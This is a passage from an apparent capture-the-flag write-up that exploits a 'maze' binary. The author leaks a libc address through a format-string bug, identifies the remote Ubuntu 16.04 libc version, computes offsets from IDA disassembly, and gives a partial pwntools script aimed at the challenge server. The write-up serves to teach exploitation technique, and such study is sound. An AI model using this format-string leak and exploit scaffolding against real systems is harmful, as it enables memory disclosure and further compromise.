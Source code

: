 Things got a bit more complicated when it came to the remote version. The pattern to leak the `__libc_start_main+<instr_offset>` address on the stack was identical, but since I didn't know the value of the instruction offset I had to identify the version of `libc` used on the remote server first.

I modified my previous stack-traversal script a bit to try to find any other useful information on the remote stack. It found `Xenial Xerus`, a code name of Ubuntu 16.04 LTS, which was enough. I downloaded the `libc` deb package from the [distribution repository](https://ubuntu.pkgs.org/16.04/ubuntu-updates-main-amd64/libc6_2.23-0ubuntu11_amd64.deb.html) and extracted the library binary from it. It was an older version 2.23.

To find the right instruction offset within the Ubuntu version, I decompiled both `libc` versions with IDA. First I looked at the instruction offset `__libc_start_main+235` of my local version. Its value was calculated as `0x23fb0 + 235 = 0x2409b`.

```
.text:000000000002409B loc_2409B:                              ; CODE XREF: __libc_start_main+15A↓j
.text:000000000002409B                 mov     edi, eax
.text:000000000002409D                 call    exit
```

It was one instruction right before the `exit` call. I successfully found the same two instructions in the remote version at `0x20830`.

```
.text:0000000000020830 loc_20830:                              ; CODE XREF: __libc_start_main+134↓j
.text:0000000000020830                 mov     edi, eax
.text:0000000000020832                 call    exit
```

Since I knew the `__libc_start_main` offset from the decompiled code I calculated the remote instruction offset within the function as `0x20830 - 0x20740 = 240`.

I wrote this Python script to automate both local and remote `libc` base address leakage. 

```python
from pwn import *
import re

remote_leak = len(sys.argv) > 1 and sys.argv[1] == 'remote'

p = remote('whale.hacking-lab.com', 7331) if remote_leak else process('./maze')

def find_libc_start_main_addr(instr_offset):
    # change name to string format pattern
    p.sendline('1')
    p.recvuntil('> ')
    p.sendline('%19$p')
    p.recvuntil('> ')

    # start the game
    p.sendline('3')
    p.recvuntil('> ')

    # run whoami command to read the libc address
    p.sendline('whoami')
    response = p.recvuntil('> ')
    libc_start_main_addr_with_instr_offset = re.search('(0x[0-9a-f]+)', response).group(1)

    # exit current game
    p.sendline('exit')
    p.recvuntil('> ')

    return int(libc_start_main_addr_with_instr_offset, 16) - instr_offset

# read init
p.recvuntil('> ')

# set player name
```